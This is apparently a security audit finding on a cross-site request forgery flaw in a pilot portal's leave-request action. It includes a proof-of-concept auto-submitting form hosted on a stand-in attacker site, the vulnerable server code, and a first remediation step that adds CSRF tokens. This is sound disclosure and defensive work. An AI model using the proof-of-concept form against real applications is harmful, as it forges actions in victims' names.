 **Proof of Concept:**
```javascript
// Attacker's malicious site (evilsite.com)
<form action="https://yourapp.com/portal/leave/new" method="POST">
  <input name="request_type" value="Annual Leave">
  <input name="start_date" value="2025-11-01">
  <input name="end_date" value="2025-11-30">
  <input name="roster_period" value="RP12/2025">
  <input name="days_count" value="30">
  <script>document.forms[0].submit()</script>
</form>
```

When an authenticated pilot visits evilsite.com, their browser automatically submits the form with their valid session cookies, creating unauthorized leave requests.

**Impact:**
- Unauthorized leave requests submitted on behalf of pilots
- Unauthorized flight requests
- Spam feedback posts
- Potential operational disruption from fake requests

**Evidence:**
```typescript
// app/portal/leave/actions.ts (Lines 25-70)
export async function submitLeaveRequestAction(formData: FormData) {
  const pilotUser = await getCurrentPilotUser()  // ✅ Auth check

  if (!pilotUser || !pilotUser.registration_approved) {
    return { success: false, error: 'Unauthorized: Not a registered pilot' }
  }

  // ❌ MISSING: CSRF validation
  // const csrfToken = formData.get('csrf_token') as string
  // if (!await validateCsrfToken(csrfToken)) {
  //   return { success: false, error: 'Invalid CSRF token' }
  // }

  try {
    const rawData = { /* ... */ }
    const validatedData = leaveRequestActionSchema.parse(rawData)
    await submitLeaveRequest(pilotUser.id, validatedData)
    return { success: true, message: 'Leave request submitted successfully' }
  } catch (error) {
    // ...
  }
}
```

**Remediation:**

**Step 1: Add CSRF token generation to forms**
```typescript
// app/portal/leave/new/page.tsx
import { generateCsrfToken } from '@/lib/csrf'

export default async function NewLeaveRequestPage() {
  const pilotUser = await getCurrentPilotUser()
  const csrfToken = await generateCsrfToken()  // ← ADD THIS

  return (
    <main>
      <LeaveRequestForm pilotUser={pilotUser} csrfToken={csrfToken} />
    </main>
  )
}
```